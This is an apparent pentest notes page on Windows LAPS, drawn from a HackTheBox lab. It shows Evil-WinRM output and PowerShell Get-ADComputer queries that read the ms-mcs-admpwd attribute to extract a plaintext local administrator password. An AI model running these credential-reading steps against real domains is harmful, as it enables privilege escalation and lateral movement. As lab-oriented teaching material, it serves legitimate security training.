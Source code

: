 ```yaml
---
description: >-
  Stands for Local Administrator Password Solution (LAPS). Its used for managing
  unique, complex, and frequently changing administrator passwords for
  domain-joined computers.
---
```


# LAPS

The goal of LAPS is to randomise passwords across the Windows end-points. This is to prevent brute-forcing, hash cracking and lateral movement in the domain joined enviroment. It is common to see groups of users which have permissions to read these passwords.

{% embed url="https://www.youtube.com/watch?ab_channel=AzureAcademy&v=ZGCM-jRsboA" %}
How LAPS works
{% endembed %}

### Vulnerability

A LAPS solution can be compromised if the user who joins a computer to an Active Directory domain has sufficient privileges to read the stored LAPS password. In this example we are member of the LAPS\_Readers group.

```bash
*Evil-WinRM* PS C:\program files\LAPS\CSE> net user svc_deploy
Enter PEM pass phrase:
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/25/2021 12:25:53 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```

Check if LAPS is running

```bash
# Check for AdmPwd.dll
dir "C:\Program Files\LAPS\CSE"

# Register query
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled
```

### Read password

As member of LAPS\_Readers we can use powershell to read the administrator password. Using Get\_ADComputer we filter out 'ms-mcs-admpwd'.

```bash
# Get objects and ms-mcs-admpwd property
Get-ADComputer DC01 -property 'ms-mcs-admpwd'

DistinguishedName : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName       : dc01.timelapse.htb
Enabled           : True
ms-mcs-admpwd     : V@cAe{m{/pv7!1q7X06Ii)U7
Name              : DC01
ObjectClass       : computer
ObjectGUID        : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName    : DC01$
SID               : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName :  
```

{% hint style="info" %}
The Get-ADcomputer will retrieve computer objects from the AD. Using the -Filter flag we use it to return "computer". The -property \* flag will return all properties of the computer objects.
{% endhint %}

```bash
# Get-ADcomputer properties
Get-ADComputer -Filter 'ObjectClass -eq "computer"' -Property *

<snip>
modifyTimeStamp                      : 10/18/2024 3:45:30 PM                                               
ms-Mcs-AdmPwd                        : V@cAe{m{/pv7!1q7X06Ii)U7                                            
ms-Mcs-AdmPwdExpirationTime          : 133741971309039826                                                  
msDFSR-ComputerReferenceBL           : {CN=DC01,CN=Topology,CN=Domain System Volume,CN=DFSR-GlobalSettings,CN=System,DC=timelapse,DC=htb}
msDS-GenerationId                    : {69, 127, 93, 82...}  
```

